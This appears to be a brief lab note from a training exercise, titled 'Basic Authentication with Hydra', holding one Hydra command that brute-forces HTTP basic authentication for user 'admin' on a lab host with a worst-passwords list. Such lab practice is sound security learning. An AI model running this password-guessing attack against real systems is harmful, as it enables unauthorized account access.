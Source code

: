 # Basic Authentication with Hydra

```shell
hydra -l admin -P 500-worst-passwords.txt -s 80 -vV enum.thm http-get /labs/basic_auth/
```
